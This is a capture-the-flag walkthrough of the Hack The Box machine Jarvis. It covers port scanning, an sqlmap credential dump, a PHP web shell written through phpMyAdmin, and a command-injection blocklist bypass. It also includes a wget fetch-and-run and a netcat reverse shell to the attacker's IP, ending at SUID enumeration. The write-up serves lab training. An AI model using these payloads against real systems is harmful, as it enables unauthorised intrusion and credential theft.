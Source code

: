 # Jarvis (HACK THE BOX)

Hey Guys,Today we will be doing Jarvis from HackTheBox,
<<logo-png>>
<br/>

## Nmap Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.143 -Pn -v                                                                                      
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-29 17:55 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 17:55
Completed Parallel DNS resolution of 1 host. at 17:55, 0.01s elapsed
Initiating Connect Scan at 17:55
Scanning 10.10.10.143 [1000 ports]
Discovered open port 22/tcp on 10.10.10.143
Discovered open port 80/tcp on 10.10.10.143
Increasing send delay for 10.10.10.143 from 0 to 5 due to 79 out of 262 dropped probes since last increase.
Completed Connect Scan at 17:56, 54.66s elapsed (1000 total ports)
Initiating Service scan at 17:56
Scanning 2 services on 10.10.10.143
Completed Service scan at 17:56, 7.18s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.143.
Initiating NSE at 17:56
Completed NSE at 17:56, 2.45s elapsed
Initiating NSE at 17:56
Completed NSE at 17:56, 0.00s elapsed
Nmap scan report for 10.10.10.143
Host is up (0.58s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```
We have only 2 ports opened(well one more but it was a rabbit hole) so let's start looking at port 80

## Enumerating Web Server

<<selection009>>
<br/>
After looking around we found a good candidate for vulnerabilites like sql injection or LFI,etc

## HARVESTING CREDENTIALS

We were able to harvest credentials of admin from this following query
```
sqlmap -u "http://10.10.10.143/room.php?cod=3" --random-agent -D mysql -T user  --dump
```
and the output is :-
```
Username:-DBadmin
Password:-*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
But this is a sha1 hash so after some hit and trial with the hash we got the value decrypted :)
<<selection010>>
<br/>

```
password:-imissyou
```

## Getting Remote Code Execution

we found ```phpmyadmin``` in dirb results
```
[sarthak@sarthak ~]$ dirb http://10.10.10.143                                                                                    [0/29]

-----------------                
DIRB v2.22                       
By The Dark Raver                
-----------------                

START_TIME: Sat Jun 29 18:00:31 2019                               
URL_BASE: http://10.10.10.143/                                     
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                   

-----------------                

GENERATED WORDS: 4612                                                                                                                  

---- Scanning URL: http://10.10.10.143/ ----                                                                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/
```
After logging in with the credentials we got from sqlmap,We created a new database to upload shell ([Reference](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/))

<<selection 011>>
<br/>

We used the following query to create a new PHP one liner shell

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/hack.php"
```
<<selection 012>>
<br/>

We can execute commands now
<<selection 013>>
<br/>

## Low Priv Shell

We [downloaded](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) a PHP shell from here and started a listner

Now we got a shell by executing this command on our rce php file...
```
http://10.10.10.143/hack.php?cmd=wget http://10.10.15.239:8081/sh.php;php sh.php
```
<<selection 014>>
<br/>

## Pivoting to pepper user

we saw that we can execute this script ```simpler.py``` as user pepper 
```
$ python -c 'import pty;pty.spawn("/bin/bash")'                                                 
www-data@jarvis:/$ sudo -l                                                                      
sudo -l                                                                                         
Matching Defaults entries for www-data on jarvis:                                               
    env_reset, mail_badpass,                                                                    
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin               
                                                                                                
User www-data may run the following commands on jarvis:                                         
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py                                
www-data@jarvis:/$    
```

After Going through the source code we found out that if we execute this script with ```-p``` paramter, it will ask for an ip address and there we can inject our code but it have a security check which blocks some characters...

```
forbidden = ['&', ';', '-', '`', '||', '|']
```
So after googling for a while we found out [this](https://vulners.com/zdt/1337DAY-ID-28868),So according to this we can execute commands inside `$(commands)` and it will bypass those checks...

So we downloaded a ```shell.sh```  on the server which has netcat reverse shell in it ...
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1233 >/tmp/f
```

and upon executing this command we get a reverse connection
```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
then it asks for a IP address and we executed this command to get shell
```
$(sh /var/www/html/shell.sh)
```
<<workspace_15>>
<br/>

## Privesc

Upon executing this ``` find / -perm -u=s -type f 2>/dev/null ``` command we found out that ```systemctl``` will run as root 

```
pepper@jarvis:/var/www$ find / -perm -u=s -type f 2>/dev/null 
find / -perm -u=s -type f 2>/dev/null 
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/var/www$ 

```


